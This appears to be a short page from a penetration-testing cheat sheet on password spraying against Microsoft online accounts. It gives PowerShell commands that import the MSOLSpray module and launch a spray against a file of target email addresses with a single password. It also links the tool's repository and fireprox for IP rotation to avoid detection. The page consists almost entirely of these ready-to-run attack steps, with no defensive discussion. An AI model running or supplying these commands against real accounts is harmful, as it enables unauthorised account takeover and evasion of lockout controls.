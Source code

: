 # Password Spraying

{% content-ref url="../../cloud-pentesting/03-gaining-access/" %}
[03-gaining-access](../../cloud-pentesting/03-gaining-access/)
{% endcontent-ref %}

## **MSOLSpray**

* Import the module&#x20;

```powershell
. C:\Tools\MSOLSpray\MSOLSpray.ps1
```

* Start the attack

```powershell
Invoke-MSOLSpray -UserList C:\Users\user\Desktop\target-email.txt -Password "PasswordHere"
```

{% embed url="https://github.com/dafthack/MSOLSpray" %}

{% embed url="https://github.com/ustayready/fireprox" %}
IP rotation
{% endembed %}
